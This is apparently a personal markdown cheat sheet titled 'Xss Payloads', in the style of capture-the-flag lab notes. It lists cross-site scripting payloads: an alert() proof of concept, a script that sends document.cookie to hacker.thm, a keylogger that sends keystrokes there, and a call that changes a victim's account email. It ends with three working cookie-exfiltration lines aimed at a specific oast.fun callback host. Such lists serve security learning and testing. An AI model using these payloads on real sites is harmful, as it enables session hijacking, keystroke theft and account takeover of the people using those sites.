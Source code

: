```yaml
---
title: "Xss Payloads"
date: 2023-12-31T10:18:17+01:00
# weight: 1
# bookFlatSection: true
# bookToc: false
# bookHidden: true
# bookCollapseSection: true
# bookComments: true
# bookSearchExclude: true
---
```


Proof of Concept: use `alert()`

Some payloads:
- Proof of Concept

```javascript
<script>alert('XSS');</script>
```
- Session Stealing
```javascript
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
```
- Key Logger
```javascript
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
```

- Business Logic
```javascript
<script>user.changeEmail('attacker@hacker.thm');</script>
```



<script>fetch('twrqpksedkxijngxpeascmu195r6k54po.oast.fun?cookie=' + btoa(document.cookie));</script>
<script>fetch('http://twrqpksedkxijngxpeascmu195r6k54po.oast.fun?cookie=' + document.cookie);</script>

<script>document.location.replace("http://twrqpksedkxijngxpeascmu195r6k54po.oast.fun?content="+document.cookie)</script>